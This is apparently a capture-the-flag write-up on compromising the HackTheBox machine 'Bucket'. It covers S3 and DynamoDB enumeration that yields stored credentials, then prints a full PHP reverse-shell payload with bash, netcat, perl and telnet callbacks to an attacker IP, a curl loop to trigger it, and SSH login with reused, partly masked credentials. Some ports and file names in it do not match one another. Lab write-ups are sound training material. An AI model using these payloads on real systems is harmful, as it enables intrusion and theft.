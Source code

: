 # Enumeration


Enumerate Web Page
---------------------------------------------------------------

After nmap scan, we add `http://bucket.htb` to  our `/etc/hosts` file and visit the website
By viewing page source code, we see that the website is fetching images from `http://s3.bucket.htb` => we add that domain to our `hosts` file too and visit it

Running directories enumeration with gobuster for those 2 domains:
```
gobuster dir -u http://bucket.htb -w <word_list>
gobuster dir -u http://s3.bucket.htb -w <word_list>

```
The scan result show us that `http://s3.bucket.htb` have some interesting directories:
```
/shell
/shellscripts
```

Now we go to visit `http://s3.bucket.htb/shell/` (Note: `/` in the end is a must, I have struggled with this for a while until someone showed me that the `/` is actually important :( )

We can see that is a dynamoDB web-shell, with the capabilities to interact with dynamoDB javascript client in the web shell, we can perform queries to the DB and fetch valuable information

```
let params = {
    "TableName" : "users"
}
dynamodb.scan(params, (err,data) => {
    if (err) console.log(err)
    else console.log(data)
})
```
The data we got back from dynamoDB include `username` and `password` that can be valueable for further uses. Right now we don't have anywhere to use it.

Enumerate S3 Bucket
------------------------------------------------------------

We execute this command to enumerate the s3 bucket
```
docker run --rm -it -v ~/.aws:/root/.aws amazon/aws-cli configure
docker run --rm -it -v ~/.aws:/root/.aws amazon/aws-cli --endpoint-url http://s3.bucket.htb s3 ls s3://adserver/images/
```
After a quick check, list of available commands that we can use in aws cli in `s3.bucket.htb` include cp/move/delete
=> That's mean we can get our reverse shell by uploading rev shell file to s3 server.

# Exploitation

Reverse shell payload:
```
<?php
echo 'running shell';
$ip='10.10.14.71';   #Change this
$port='8787';
$reverse_shells = array(
    '/bin/bash -i > /dev/tcp/'.$ip.'/'.$port.' 0<&1 2>&1',
    '0<&196;exec 196<>/dev/tcp/'.$ip.'/'.$port.'; /bin/sh <&196 >&196 2>&196',
    '/usr/bin/nc '.$ip.' '.$port.' -e /bin/bash',
    'nc.exe -nv '.$ip.' '.$port.' -e cmd.exe',
    "/usr/bin/perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,\"".$ip.":".$port."\");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'",
    'rm -f /tmp/p; mknod /tmp/p p && telnet '.$ip.' '.$port.' 0/tmp/p',
    'perl -e \'use Socket;$i="'.$ip.'";$p='.$port.';socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};\''
);
foreach ($reverse_shells as $reverse_shell) {
   try {echo system($reverse_shell);} catch (Exception $e) {echo $e;}
   try {shell_exec($reverse_shell);} catch (Exception $e) {echo $e;}
   try {exec($reverse_shell);} catch (Exception $e) {echo $e;}
}
system('id');
?>
```

Uploading reverse shell:
```
docker run --rm -it -v ~/.aws:/root/.aws amazon/aws-cli --endpoint-url http://s3.bucket.htb/ s3 cp myrev.php s3://adserver/php-revshell.php
```

***Note***: After a few tries, I realize after 30 seconds ~ 1 minute, the machine clean itself. Which mean is that everything we do will be deleted/removed, so we have to be fast !!!

I tried to access `bucket.htb/myrev.php` but every browser that I have tried with (Chrome/Safari/Firefox), they all offer me to download the file instead of executing it. So I wrote a quick script to increase the chance of getting reverse shell

```
#/bin/bash

docker run --rm -it -v ~/.aws:/root/.aws amazon/aws-cli --endpoint-url http://s3.bucket.htb s3 cp /root/.aws/php-revshell.php s3://adserver/

echo ""
echo "[+] Executing reverse shell on s3 server"
while [ 0 ]; do
	curl http://bucket.htb/php-revshell.php &> /dev/null
done
```
It simply automate the process of copying file to s3 server and trying to `curl` the URL

In our machine, start Netcat listener
```
nc -lvnp 4444 //Change port
```

After getting a reverse shell to our machine, we will want to spawn a TTY shell for a more interactive shell
```
/usr/bin/script -qc /bin/bash /dev/null
```

Get users in the system
```
cat /etc/passwd
```
We see that there is a user in the machine: `roy`
With the `username` and `password` we have collected from querying DynamoDB, it's worth to try some of the password with user `roy`
`roy` SSH creds:

```
roy:n2v*******:.Aa2
```
=> Get the user.txt flag in the machine

# Post Exploitation

